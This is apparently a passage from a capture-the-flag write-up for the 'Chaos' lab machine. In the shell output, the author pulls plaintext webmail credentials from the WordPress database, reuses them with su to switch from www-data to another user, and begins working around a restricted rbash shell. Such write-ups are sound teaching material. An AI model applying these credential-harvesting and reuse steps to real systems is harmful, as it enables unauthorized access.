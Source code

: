 Continuing to enumerate the db I re-discovered credentials I'd unfortunately forgotten about (doh!):

```
              | publish     | open           | open        | human         | chaos                |         |        | 2018-10-28 11:34:12 | 2018-10-28 11:34:12 |                       |           0 | http://wordpress.chaos.htb/wp/wordpress/?p=6                                |          0 | post      |                |             0 |
|  7 |           1 | 2018-10-28 11:34:12 | 2018-10-28 11:34:12 | Creds for webmail :

username � ayush

password � jiujitsu 
```

I was able to simply reuse these to `su ayush`:

```
www-data@chaos:/var/www/roundcube/config$ cd /home
www-data@chaos:/home$ ls
ayush  sahay
www-data@chaos:/home$ whoami
www-data
www-data@chaos:/home$ su ayush
Password: 
ayush@chaos:/home$ whoami
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

But now it appears we are in an rbash shell.

```
ayush@chaos:/home$ echo $SHELL
/opt/rbash
ayush@chaos:/home$ echo $PATH
/home/ayush/.app
```

We can bypass the restriction on the `cat` command by using `dir` instead:

```
ayush@chaos:/home$ dir -la '/home/ayush'    
total 40
drwx------ 6 ayush ayush 4096 Jul 30 19:07 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Jul 30 19:07 .gnupg
drwx------ 3 ayush ayush 4096 Jun 30  2022 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Jul 30 16:25 user.txt
```
